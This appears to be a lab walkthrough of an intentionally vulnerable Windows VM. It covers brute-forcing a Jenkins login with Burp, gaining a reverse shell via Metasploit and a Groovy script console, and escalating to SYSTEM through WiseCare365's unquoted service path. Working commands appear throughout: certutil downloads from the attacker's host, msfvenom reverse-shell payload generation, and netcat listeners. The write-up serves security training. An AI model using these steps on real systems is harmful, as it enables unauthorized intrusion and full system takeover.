

<!-- markdownlint-disable MD022 -->
<!-- markdownlint-disable MD025 -->

# Academy
{: .no_toc}

- Part of the Capstone VMs
- An intensionally vulnerable VM

## Table of contents
{: .no_toc .text-delta}

- TOC
{:toc }

## Summary

- Jenkins
- Brute Forcing with Burp intruder
- Groovy/Java reverse shell
- Privilege escalation

## Enumeration [Nmap]

```console
┌──(kali㉿kali)-[~]
└─$ nmap -T4 -p- -A 10.0.2.80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-25 10:41 CET
Nmap scan report for 10.0.2.80
Host is up (0.013s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-25T18:43:08
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08002703177e (Oracle VirtualBox virtual NIC)
|_clock-skew: 8h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.69 seconds
```

> Not a lot open, lets see what port 8080 got for us

## Browser


> So we have a jenkins server

## Brute Force Login [Burp]


- Start Burp suit, go to Proxy tab, open browser and navigate to jenkins login page
- Enable intercept and enter any credentials
- Once intercepted, right click or Ctrl + I to send to intruder, click Forward to forward the request and navigate to Intruder tab

### Intruder
{: .no_toc}

- Clear all payload markers by pressing the "Clear §" button on the right
- Select the Attack type: Cluster Bomb to pair all usernames with all passwords
- Double click on the entered username text and click the "Add §" button and repeat for the password text
- Select the Payloads sub tab 
- Enter a few usernames one by one in the txt field next to the Add button and then press it .e.g jenkins, admin, administrator, Jenkins and passwords 
- Click on the dropdown list next to Payload set and select 2 and then repeat for passwords e.g. password, jenkins, Password, password1
- Then click on the orange "Start Attack" button in the top right corner
- Observe any inconsistencies in the table e.g. the response length
- Click on the Response tab below the table to view the responses
- Notice a discrepancy in response length when trying jenkins:jenkins and
- The session id returned in the response

> We got credentials

## Exploit [Metasploit / Manual]
  
### Metasploit

- Search for jenkins
- `use multi/http/jenkins_script_console`
- set rhosts, rport, lhosts, username & password
- `exploit`

```console
[*] Started reverse TCP handler on 10.0.2.9:4444 
[*] Checking access to the script console
[*] Logging in...
[*] Using CSRF token: 'cf6363d73fbaa2ddbb111e122555c2b88754ca869ff363611a695aa9244c3e3e' (Jenkins-Crumb style v2)
[*] 10.0.2.80:8080 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Sending stage (175686 bytes) to 10.0.2.80
[*] Meterpreter session 2 opened (10.0.2.9:4444 -> 10.0.2.80:60581) at 2023-01-25 12:31:18 +0100

meterpreter > 
```

> We got a shell!!!

- get default target shell `shell`

```console
meterpreter > shell
Process 2480 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler
```

> But not root... yet ;)

### Manual

- Google "groovy reverse shell" 
- Copy raw [shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)
- On the local system start a listener `nc -nvlp 8044`
- Log into jenkins
- Navigate to "Manage Jenkins" -> "Tools and Actions" -> "Script Console"
- Paste shell, adjust host and click run

```console
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8044
listening on [any] 8044 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.80] 60582
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler
```
> We got a shell!!!
> But not root... yet

> Let's look around

- `systeminfo`

```console
C:\Program Files\Jenkins>systeminfo
systeminfo

Host Name:                 BUTLER
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          butler
Registered Organization:   
Product ID:                00329-20000-00001-AA079
Original Install Date:     8/14/2021, 3:51:38 AM
System Boot Time:          1/25/2023, 12:24:20 PM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2304 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,032 MB
Available Physical Memory: 1,120 MB
Virtual Memory: Max Size:  3,184 MB
Virtual Memory: Available: 2,270 MB
Virtual Memory: In Use:    914 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4601554
                           [02]: KB5000736
                           [03]: KB5001330
                           [04]: KB5001405<<<>>>
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet      
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.0.2.3
                                 IP address(es)
                                 [01]: 10.0.2.80
                                 [02]: fe80::75a6:4e74:209f:2661
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Lets check out the admin account

```console
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of C:\Users\Administrator

08/14/2021  04:30 AM    <DIR>          .
08/14/2021  04:30 AM    <DIR>          ..
08/14/2021  04:29 AM    <DIR>          3D Objects
08/14/2021  04:29 AM    <DIR>          Contacts
08/14/2021  04:29 AM    <DIR>          Desktop
08/14/2021  04:29 AM    <DIR>          Documents
08/14/2021  04:34 AM    <DIR>          Downloads
08/14/2021  04:29 AM    <DIR>          Favorites
08/14/2021  04:29 AM    <DIR>          Links
08/14/2021  04:29 AM    <DIR>          Music
08/14/2021  04:30 AM    <DIR>          OneDrive
08/14/2021  04:29 AM    <DIR>          Pictures
08/14/2021  04:29 AM    <DIR>          Saved Games
08/14/2021  04:29 AM    <DIR>          Searches
08/14/2021  04:29 AM    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)  13,253,410,816 bytes free
```

The last folder timestamp of the admin is Downloads, let have a look

```console
C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of C:\Users\Administrator\Downloads

08/14/2021  04:34 AM    <DIR>          .
08/14/2021  04:34 AM    <DIR>          ..
08/14/2021  04:34 AM        16,013,912 WiseCare365_5.6.7.568.exe
               1 File(s)     16,013,912 bytes
               2 Dir(s)  13,253,476,352 bytes free
```
WiseCare365... interesting

## Privilege Escalation Enumeration [winPEAS]

### WinPEAS

On the local system:
- Download winPEASx64.exe and move to transfers folder
- cd into the transfers folder
- Start a http server `python3 -m http.server 80`

On the target system:
- Find a folder with write access e.g. Desktop
- `cd C:\Users\Butler\Desktop`
- Download winPEAS `certutil.exe -urlcache -f http://10.0.2.9/winPEASx64.exe winpeas.exe`

### Manual

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit wise care
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Wise Care 365 4.27 / Wise Disk Cleaner 9.29 - Unquoted Service Path Privilege Escal | windows/local/40417.txt
Wise Care 365 5.6.7.568 - 'WiseBootAssistant' Unquoted Service Path                 | windows/local/50038.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> Perfect there is an exploit in that version of WiseCare

Let look at the exploit `nano /usr/share/exploitdb/exploits/windows/local/50038.txt`  


Follow instructions:
1. To find the unquoted service path vulnerability: `wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname`

```console  
C:\>wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname

DisplayName          PathName                                                StartMode  StartName
Wise Boot Assistant  C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe  Auto       LocalSystem
```

2. To check service info: `sc qc "WiseBootAssistant"`

```console
C:\Users\Administrator>sc qc "WiseBootAssistant"
sc qc "WiseBootAssistant"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WiseBootAssistant
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Wise Boot Assistant
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```

3. Exploit:

A successful attempt to exploit this vulnerability requires the attacker to insert an executable file into the service path undetected by the OS or some security application.
When restarting the service or the system, the inserted executable will run with elevated privileges.

> Lets create a reverse shell payload

## Privilege Escalation [Metasploit / MsfVenom ]

### Metasploit 

- `use payload/windows/x64/shell_reverse_tcp`
- set lhost and lport
- generate payload `generate -f exe -o Wise.exe`  


### MsfVenom

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o vWise.exe`

```console
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: vWise.exe
```
### Execution

On host system:
- move payload to transfers folder `mv ~/Wise.exe ~/transfers `
- start http server `python3 -m http.server 80`

On target system:
- go to target path `cd C:\Program Files (x86)\Wise`
- download payload `certutil.exe -urlcache -f http://10.0.2.9/Wise.exe Wise.exe`
- stop service `sc stop WiseBootAssistant`
- check status `sc query WiseBootAssistant`
```console
C:\Program Files\Jenkins>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```
- start service `sc start`
```console
C:\Program Files\Jenkins>sc start WiseBootAssistant
sc start WiseBootAssistant
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

Let's check the listener:

```console
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.80] 62260
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

> WE GOT ROOT !!!